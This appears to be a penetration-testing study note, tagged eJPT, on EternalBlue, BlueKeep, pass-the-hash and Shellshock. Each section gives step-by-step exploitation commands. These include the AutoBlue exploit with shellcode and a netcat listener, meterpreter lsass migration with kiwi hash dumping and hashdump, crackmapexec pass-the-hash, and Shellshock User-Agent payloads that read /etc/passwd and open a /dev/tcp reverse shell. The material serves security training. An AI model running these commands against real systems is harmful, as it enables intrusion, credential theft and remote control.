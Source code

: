 # 10 Vulnerability Analysis 

## EternalBlue
MS17-010/CVE-2017-0144
Collection of Windows vulnerabilities and exploits

Takes advantage of a vulnerability in the **Windows SMBv1** protocol that allows attackers to send specially crafted packets.

Provides privileged access on the target system.

**Versions:**
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows 8.1
- Windows Server 2012
- Windows 10
- Windows Server 2016

MSF auxiliary module and exploit module.

###### Tool: [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

#### Demo
Manual:
```bash
nmap -sV -p 445 -O <IP>
nmap -sV -p 445 —script=smb-vuln-ms17-010 <ip>
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
pip install -r requirements.txt
cd <path>/AutoBlue-MS17-010/shellcode
chmod +x shell_prep.sh
./shell_prep.sh
	y
	<my-ip>
	<my-port>
	<my-port>
	1
	1
nc -nvlp <my-port> (on new shell)
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py <ip-target> shellcode/sc_x64.bin
```
Automatic:
```bash
search eternalblue (auxiliary and exploit)
```

## BlueKeep
CVE-2019-0708 RDP
Vulnerability in the **RPD** protocol, provides privileged access on the target system.

Gain access to a chunk of kernel memory consequently allowing to remotely execute arbitrary code at system level without authentication.

**Versions:**
- Windows XP
- Windows Vista
- Windows 7
- Windows Server 2008 & R2

MSF auxiliary module and exploit module.

#### Demo
```bash
nmap -p 3389 <ip>
msf6: search BlueKeep
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
```

## Pass-the-Hash Attacks
Capturing or harvesting NTLM hashes or clear-text password.
Authenticate via SMB.

###### **Tools:**

- Metasploit PsExec module
- Crackmapexec

#### Demo
```bash
msf6: search badblue
meterpreter > pgrep lsass
meterpreter > migrate 780
meterpreter > getuid
meterpreter > load kiwi
meterpreter > lsa_dump_sam
meterpreter > hashdump
ctrl + z
msf6 exploit(windows/smb/psexec)
msf6: show options
msf6: sessions
msf6: set LPORT <different-port>
msf6: set RHOSTS <target-ip>
msf6: set SMBPass <hash>
msf6: exploit
msf6: set target
msf6: set target Command
msf6: exploit
msf6: set target Native\ upload
msf6: exploit

crackmapexec smb <ip> -u <username> -H “NTLM hash”
-x “ipconfig”
```

## Frequently Exploited Linux Services
Linux kernel, GNU toolkit: GNU/Linux

| Protocol/Service             | Ports            | Purpose                                                                                                                                                                         |
| ---------------------------- | ---------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Apache Web Server            | TCP ports 80/443 | Free and open source cross-platform web server released under the Apache License 2.0. Apache accounts for over 80% of web servers globally.                                     |
| SSH (Secure Shell)           | TCP port 22      | SSH is a cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet. |
| FTP (File Transfer Protocol) | TCP port 21      | FTP is used to facilitate file sharing between a server and client/clients and vice versa.                                                                                      |
| SAMBA                        | TCP port 445     | Samba is the Linux implementation of SMB, and allow Windows systems to access Linux shares and devices.                                                                         |

## Shellshock
CVE-2014-6271
Vulnerability in the **Bash shell** (since V1.3) is caused whereby Bash mistakenly executes trailing commands after a series of characters `() { :; };)` .

Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable. CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system after which the output is displayed to the client.

Exploitation
- Locate an input vector or script that allows you to communicate with Bash
- In Apache web server, we can utilize any legitimate CGI scripts accessible on the web server
- Whenever a CGI scrip is executed, the web server will initiate a new process and run the CGI script with Bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

#### Demo
```bash
nmap -sV <ip> —script=http-shellshock —script-args “http-shellshock.uri=/gettime.cgi”
burp suite: proxy: intercept on
burp suite: repeater: User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
burp suite: repeater: send

Gain reverse shell:
nc -nvlp 1234

User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.209.127.2/1234 0>&1'

msf6: search shellshock
msf6: exploit(multi/http/apache_mod_cgi_bash_env_exec)
```

#eJPT #cybersecurity   